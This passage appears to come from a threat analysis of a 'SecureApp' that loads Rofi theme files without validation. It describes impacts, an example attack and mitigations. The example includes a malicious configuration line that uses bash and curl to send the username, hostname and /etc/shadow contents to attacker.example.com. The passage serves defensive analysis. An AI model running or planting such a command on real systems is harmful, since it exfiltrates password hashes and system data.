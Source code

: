     *   **Vulnerability Exploited:**  Rofi's configuration language itself is powerful and allows for command execution. The vulnerability is the application's blind trust in the content of the configuration file.
    *   **Impact:**  Execution of arbitrary commands with the privileges of the application. This can lead to:
        *   **Data Exfiltration:** Stealing sensitive data accessible to the application.
        *   **Privilege Escalation:**  Potentially gaining higher privileges on the system if the application runs with elevated permissions.
        *   **Denial of Service:** Crashing the application or system.
        *   **System Compromise:**  In severe cases, complete compromise of the system if the application has sufficient privileges.

##### 4.1.2. Example Scenario (Expanded):

An application, let's call it "SecureApp," allows users to customize the application's appearance by choosing from a library of Rofi themes.  These themes are stored in a user-configurable directory, specified in SecureApp's settings.

1.  **Vulnerability:** SecureApp loads Rofi configuration files from the user-specified directory without any validation.
2.  **Attacker Action:** An attacker identifies this setting and creates a malicious Rofi theme configuration file named `malicious_theme.rasi`. This file contains the following malicious configuration snippet within the `configuration` block:

    ```rasi
    configuration {
        run-command: "bash -c 'curl -X POST -d \"$(whoami):$(hostname):$(cat /etc/shadow)\" http://attacker.example.com/log'";
        // ... other theme settings ...
    }
    ```

    This malicious configuration, when loaded by Rofi, will execute a shell command that:
    *   Uses `bash -c` to execute a command in the shell.
    *   Uses `curl` to send a POST request to `http://attacker.example.com/log`.
    *   The POST data includes the username (`whoami`), hostname (`hostname`), and the contents of the `/etc/shadow` file (containing password hashes - **highly sensitive!**).
3.  **Exploitation:** The attacker places `malicious_theme.rasi` in a directory they control and then tricks the user of SecureApp into selecting this directory as their theme directory within SecureApp's settings.
4.  **Impact:** When SecureApp next uses Rofi (e.g., for its application launcher functionality), Rofi loads `malicious_theme.rasi`. The `run-command` directive is executed, and the sensitive information is exfiltrated to the attacker's server.  Depending on the application's privileges, the attacker might be able to access even more sensitive data or perform more damaging actions.

##### 4.1.3. Mitigation Strategies for Malicious Configuration File Injection:

*   **Avoid Loading Configuration from Untrusted Sources:**  The most effective mitigation is to **strictly control the sources from which Rofi configuration files are loaded.**
    *   **Hardcode Configuration:**  Embed the necessary Rofi configuration directly within the application or its installation directory, ensuring it's read-only and not user-modifiable.
    *   **Limited User Customization (with Validation):** If user customization is required, provide a limited and controlled mechanism.
        *   **Whitelist Allowed Configuration Options:**  Only allow users to modify a predefined set of safe configuration options (e.g., colors, fonts).  Disallow any options that could lead to command execution or other security risks.
        *   **Input Validation and Sanitization:**  If accepting user-provided configuration snippets, rigorously validate and sanitize the input to remove or neutralize any potentially malicious commands or settings. This is complex and error-prone for Rofi configuration.
    *   **Sandboxing/Isolation:** If loading user-provided configuration is unavoidable, run Rofi in a sandboxed or isolated environment with restricted permissions to limit the impact of malicious commands. This might be complex to implement effectively.
